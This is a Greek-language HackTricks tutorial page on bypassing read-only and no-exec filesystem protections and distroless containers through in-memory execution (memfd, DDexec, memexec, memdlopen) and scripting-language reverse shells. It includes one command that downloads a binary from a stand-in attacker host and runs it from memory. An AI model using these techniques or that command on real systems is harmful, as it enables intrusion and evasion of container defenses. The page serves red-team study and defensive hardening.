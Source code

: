 # Παράκαμψη προστασίας FS: μόνο για ανάγνωση / χωρίς εκτέλεση / Distroless

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αν σας ενδιαφέρει η **καριέρα στο χάκινγκ** και το χάκαρισμα του αδύνατου - **σας προσλαμβάνουμε!** (_απαιτείται άριστη γνώση γραπτού και προφορικού Πολωνικών_).

{% embed url="https://www.stmcyber.com/careers" %}

## Βίντεο

Στα παρακάτω βίντεο μπορείτε να βρείτε τεχνικές που αναφέρονται σε αυτήν τη σελίδα εξηγημένες πιο αναλυτικά:

* [**DEF CON 31 - Εξερευνώντας τη Μετασχηματισμό Μνήμης Linux για Κρυψώνες και Αποφυγή**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Κρυφές εισβολές με το DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Σενάριο μόνο για ανάγνωση / χωρίς εκτέλεση

Είναι όλο και πιο συνηθισμένο να βρίσκουμε μηχανές Linux που έχουν τοποθετηθεί με προστασία **μόνο για ανάγνωση (ro) του συστήματος αρχείων**, ειδικά σε containers. Αυτό συμβαίνει επειδή για να τρέξετε ένα container με ro σύστημα αρχείων είναι τόσο εύκολο όσο το να ορίσετε **`readOnlyRootFilesystem: true`** στο `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ωστόσο, ακόμα κι αν το σύστημα αρχείων είναι τοποθετημένο ως ro, το **`/dev/shm`** θα παραμείνει εγγράψιμο, οπότε είναι ψεύτικο ότι δεν μπορούμε να γράψουμε τίποτα στο δίσκο. Ωστόσο, αυτός ο φάκελος θα είναι **τοποθετημένος με προστασία χωρίς εκτέλεση**, οπότε αν κατεβάσετε ένα δυαδικό αρχείο εδώ **δεν θα μπορείτε να το εκτελέσετε**.

{% hint style="warning" %}
Από την οπτική γωνία μιας κόκκινης ομάδας, αυτό κάνει **πιο περίπλοκο το να κατεβάσετε και να εκτελέσετε** δυαδικά που δεν υπάρχουν ήδη στο σύστημα (όπως backdoors ή enumerators όπως το `kubectl`).
{% endhint %}

## Ευκολότερη παράκαμψη: Σενάρια

Σημειώστε ότι ανέφερα δυαδικά, μπορείτε να **εκτελέσετε οποιοδήποτε σενάριο** όσο το διερμηνέας βρίσκεται μέσα στη μηχανή, όπως ένα **shell script** αν το `sh` είναι παρόν ή ένα **σενάριο python** αν έχει εγκατασταθεί το `python`.

Ωστόσο, αυτό δεν είναι αρκετό μόνο για να εκτελέσετε το δυαδικό backdoor σας ή άλλα δυαδικά εργαλεία που ίσως χρειαστεί να τρέξετε.

## Παρακάμψεις Μνήμης

Αν θέλετε να εκτελέσετε ένα δυαδικό αλλά το σύστημα αρχείων δεν το επιτρέπει, ο καλύτερος τρόπος να το κάνετε είναι με το **να το εκτελέσετε από τη μνήμη**, καθώς οι **προστασίες δεν ισχύουν εκεί**.

### Παράκαμψη FD + exec syscall

Αν έχετε ισχυρούς μηχανισμούς σεναρίων μέσα στη μηχανή, όπως **Python**, **Perl** ή **Ruby**, μπορείτε να κατεβάσετε το δυαδικό για εκτέλεση από τη μνήμη, να το αποθηκεύσετε σε έναν περιγραφέα αρχείου μνήμης (`create_memfd` syscall), ο οποίος δεν θα προστατεύεται από αυτές τις προστασίες, και στη συνέχεια να καλέσετε ένα **`exec` syscall** δείχνοντας το **fd ως το αρχείο προς εκτέλεση**.

Για αυτό μπορείτε εύκολα να χρησιμοποιήσετε το έργο [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Μπορείτε να του περάσετε ένα δυαδικό και θα δημιουργήσει ένα σενάριο στην καθορισμένη γλώσσα με το **δυαδικό συμπιεσμένο και κωδικοποιημένο σε b64** με οδηγίες για το **αποκωδικοποίηση και αποσυμπίεση** του σε ένα **fd** που δημιουργείται καλώντας την κλήση συστήματος `create_memfd` και μια κλήση στο **exec** syscall για να το εκτελέσει.

{% hint style="warning" %}
Αυτό δεν λειτουργεί σε άλλες γλώσσες σεναρίων όπως PHP ή Node επειδή δεν έχουν κανέναν **προεπιλεγμένο τρόπο να καλέσουν raw syscalls** από ένα σενάριο, οπότε δεν είναι δυνατό να καλέσουν το `create_memfd` για να δημιουργήσουν το **fd μνήμης** για να αποθηκεύσουν το δυαδικό.

Επιπλέον, η δημιουργία ενός **κανονικού fd** με ένα αρχείο στο `/dev/shm` δεν θα λειτουργήσει, καθώς δεν θα σας επιτραπεί να το εκτελέσετε λόγω της **προστασίας χωρίς εκτέλεση** που θα εφαρμοστεί.
{% endhint %}

### DDexec / EverythingExec

Το [**DDexec / EverythingExec**](https://github.com/arget13/DDexec) είναι μια τεχνική που σάς επιτρέπει να **τροποποιήσετε τη μνήμη της δικής σας διεργασίας** με το να αντικαθιστάτε το **`/proc/self/mem`** της.

Έτσι, **ελέγχοντας τον κώδικα συναρμολόγησης** που εκτελείται από τη διεργασία, μπορείτε να γράψετε ένα **shellcode** και "μεταλλάσσετε" τη διεργασία για να **εκτελέσετε οποιοδήποτε αυθαίρετο κώδικα**.

{% hint style="success" %}
Το **DDexec / EverythingExec** θα σας επιτρέψει να φορτώσετε και να **εκτελέσετε** το δικό σας **shellcode** ή **οποιοδήποτε δυαδικό** από τη **μνήμη**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec) είναι το φυσικό επόμενο βήμα του DDexec. Είναι ένα **DDexec shellcode demonised**, οπότε κάθε φορά που θέλετε να **εκτελέσετε ένα διαφορετικό δυαδικό** δεν χρειάζεται να ξαναξεκινήσετε το DDexec, μπορείτε απλά να εκτελέσετε το shellcode memexec μέσω της τεχνικής DDexec και στη συνέχεια **να επικοινωνήσετε με αυτό το δαίμονα για να περάσετε νέα δυαδικά για φόρτωση και εκτέλεση**.

Μπορείτε να βρείτε ένα παράδειγμα για το πώς να χρησιμοποιήσετε το **memexec για να εκτελέσετε δυαδικά από ένα αντίστροφο κέλυφος PHP** στο [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Με παρόμοιο σκοπό με το DDexec, η τεχνική [**memdlopen**](https://github.com/arget13/memdlopen) επιτρέπει έναν **ευκολότερο τρόπο φόρτωσης δυαδικών** στη μνήμη για να τα εκτελέσετε αργότερα. Μπορεί ακόμη να επιτρέψει τη φόρτωση δυαδικών με εξαρτήσεις.

## Διάβρωση Distroless

### Τι είναι το distroless

Τα δοχεία Distroless περιέχουν μόνο τα **απαραίτητα ελάχιστα στοιχεία που απαιτούνται για την εκτέλεση μιας συγκεκριμένης εφαρμογής ή υπηρεσίας**, όπως βιβλιοθήκες και εξαρτήσεις χρόνου εκτέλεσης, αλλά εξαιρούν μεγαλύτερα στοιχεία όπως ένας διαχειριστής πακέτων, κέλυφος ή διατηρητές συστήματος.

Ο στόχος των δοχείων Distroless είναι να **μειώσουν την επιφάνεια επίθεσης των δοχείων εξαλείφοντας τα περιττά στοιχεία** και μειώνοντας τον αριθμό των ευπαθειών που μπορούν να εκμεταλλευτούν.

### Αντίστροφο Κέλυφος

Σε ένα δοχείο Distroless ενδέχεται να **μην βρείτε ούτε το `sh` ούτε το `bash`** για να λάβετε ένα κανονικό κέλυφο. Δεν θα βρείτε επίσης δυαδικά όπως `ls`, `whoami`, `id`... όλα όσα συνήθως εκτελείτε σε ένα σύστημα.

{% hint style="warning" %}
Συνεπώς, **δεν** θα μπορέσετε να λάβετε ένα **αντίστροφο κέλυφος** ή να **απαριθμήσετε** το σύστημα όπως συνήθως κάνετε.
{% endhint %}

Ωστόσο, αν το περιορισμένο δοχείο εκτελεί, για παράδειγμα, έναν ιστό flask, τότε το python είναι εγκατεστημένο, και συνεπώς μπορείτε να αποκτήσετε ένα **αντίστροφο κέλυφος Python**. Αν εκτελείτε node, μπορείτε να αποκτήσετε ένα Node αντίστροφο κέλυφο, και το ίδιο με σχεδόν οποιαδήποτε **γλώσσα σεναρίωσης**.

{% hint style="success" %}
Χρησιμοποιώντας τη γλώσσα σεναρίωσης μπορείτε να **απαριθμήσετε το σύστημα** χρησιμοποιώντας τις δυνατότητες της γλώσσας.
{% endhint %}

Αν δεν υπάρχουν **προστασίες `read-only/no-exec`** μπορείτε να καταχραστείτε το αντίστροφο κέλυφός σας για να **γράψετε στο σύστημα αρχείων τα δυαδικά σας** και να τα **εκτελέσετε**.

{% hint style="success" %}
Ωστόσο, σε αυτού του είδους τα δοχεία αυτές οι προστασίες συνήθως υπάρχουν, αλλά μπορείτε να χρησιμοποιήσετε τις **προηγούμενες τεχνικές εκτέλεσης μνήμης για να τις παρακάμψετε**.
{% endhint %}

Μπορείτε να βρείτε **παραδείγματα** για το **εκμετάλλευση ορισμένων ευπαθειών RCE** για να λάβετε αντίστροφα κέλυφα γλωσσών σεναρίωσης και να εκτελέσετε δυαδικά από τη μνήμη στο [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).
